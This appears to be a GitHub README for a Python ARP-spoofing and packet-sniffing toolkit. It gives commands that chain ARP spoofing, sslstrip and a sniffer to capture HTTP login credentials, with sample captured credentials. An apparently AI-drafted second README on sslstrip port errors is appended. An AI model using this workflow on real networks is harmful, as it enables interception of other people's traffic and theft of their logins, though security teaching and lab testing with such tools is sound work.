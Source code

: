 # Packet Sniffer Project

## Overview

The Packet Sniffer project is a collection of Python scripts designed for network security testing and analysis. It includes tools for ARP spoofing and packet sniffing, enabling users to monitor network traffic and capture sensitive information such as login credentials.

## Features

- **ARP Spoofer**: Redirect network traffic between devices on the same network.
- **Packet Sniffer**: Capture and analyze network packets to extract useful information.

## Requirements

- Python 3.x
- Scapy
- sslstrip

## Installation

1. Clone the repository:

   ```bash
   git clone https://github.com/arifbinekram/Packet-Sniffer.git
   ```

2. Navigate to the ARP spoofer directory:

   ```bash
   cd Packet-Sniffer/arp\ spoofer
   ```

3. Ensure you have the required dependencies installed. You can install Scapy using pip:

   ```bash
   pip install scapy
   ```

4. For `sslstrip`, you might need to install it manually or use your package manager:

   ```bash
   sudo apt-get install sslstrip
   ```

## Usage

### ARP Spoofer

The ARP spoofer script redirects traffic between a target device and the gateway.

1. Run the ARP spoofer:

   ```bash
   python arp_spoof.py -t <target_ip> -s <spoof_ip>
   ```

   Replace `<target_ip>` with the IP address of the target device and `<spoof_ip>` with the IP address of the gateway.

### SSL Strip

To strip SSL/TLS from the traffic, run `sslstrip` in a separate terminal:

   ```bash
   sslstrip
   ```

### Packet Sniffer

The packet sniffer script captures and analyzes network packets.

1. Navigate to the packet sniffer directory:

   ```bash
   cd ../packet\ sniffer
   ```

2. Run the packet sniffer:

   ```bash
   python packet_sniffer.py
   ```

   The script will start capturing HTTP requests and possible login credentials.

## Example

Here is an example of how to use the tools together:

1. Start ARP spoofing:

   ```bash
   cd Packet-Sniffer/arp\ spoofer
   python arp_spoof.py -t 10.0.2.4 -s 10.0.2.1
   ```

2. In a separate terminal, run `sslstrip`:

   ```bash
   sslstrip
   ```

3. Start the packet sniffer:

   ```bash
   cd ../packet\ sniffer
   python packet_sniffer.py
   ```

   Example output:

   ```text
   [+] HTTP Request > www.sxtmgc.com/admin/loginvalidate.php
   [+] Possible username and password: username=packetsniffer%40gmail.com&password=wefergrhsdffr&submit=
   ```

## Disclaimer

This project is intended for educational purposes only. Unauthorized interception of network traffic is illegal and unethical. Use this tool responsibly and only on networks where you have explicit permission to test.
Here's the updated `README.md` file with the added instructions on how to resolve the `Address already in use` error when using `sslstrip`:

```markdown
# Packet Sniffer

This project is a simple packet sniffer written in Python.

## Installation

1. Clone the repository:
   ```sh
   git clone https://github.com/arifbinekram/Packet-Sniffer.git
   cd Packet-Sniffer
   ```

2. Install required dependencies:
   ```sh
   pip install -r requirements.txt
   ```

## Usage

To run the packet sniffer, use the following command:
```sh
python sniffer.py
```



### Running sslstrip

To use `sslstrip` with your ARP spoofer, follow these steps:

1. Run `sslstrip`:
   ```sh
   sslstrip
   ```

   If you encounter the following error:
   ```sh
   Traceback (most recent call last):
     File "/usr/lib/python3/dist-packages/twisted/internet/tcp.py", line 1346, in startListening
       skt.bind(addr)
   OSError: [Errno 98] Address already in use

   During handling of the above exception, another exception occurred:

   Traceback (most recent call last):
     File "/usr/bin/sslstrip", line 112, in <module>
       main(sys.argv[1:])
     File "/usr/bin/sslstrip", line 104, in main
       reactor.listenTCP(int(listenPort), strippingFactory)
     File "/usr/lib/python3/dist-packages/twisted/internet/posixbase.py", line 364, in listenTCP
       p.startListening()
     File "/usr/lib/python3/dist-packages/twisted/internet/tcp.py", line 1348, in startListening
       raise CannotListenError(self.interface, self.port, le)
   twisted.internet.error.CannotListenError: Couldn't listen on any:10000: [Errno 98] Address already in use.
   ```

2. Check which process is using port `10000`:
   ```sh
   lsof -i :10000
   ```

   Example output:
   ```sh
   COMMAND    PID USER   FD   TYPE DEVICE SIZE/OFF NODE NAME
   sslstrip 57398 root    8u  IPv4 111068      0t0  TCP *:webmin (LISTEN)
   ```

3. Stop the conflicting process:
   ```sh
   kill -9 57398
   ```

   Replace `57398` with the actual PID from the output.

4. Run `sslstrip` again:
   ```sh
   sslstrip
   ```

Alternatively, you can choose a different port for `sslstrip`:
```sh
sslstrip -l 10001
```

Now `sslstrip` should be running without any issues.

## Contributing

Feel free to submit issues or pull requests if you find any bugs or have suggestions for improvements.


Add these instructions to your `README.md` file to help users troubleshoot and resolve the port conflict issue when running `sslstrip`.

---

Feel free to contribute to this project by submitting issues or pull requests to the GitHub repository.
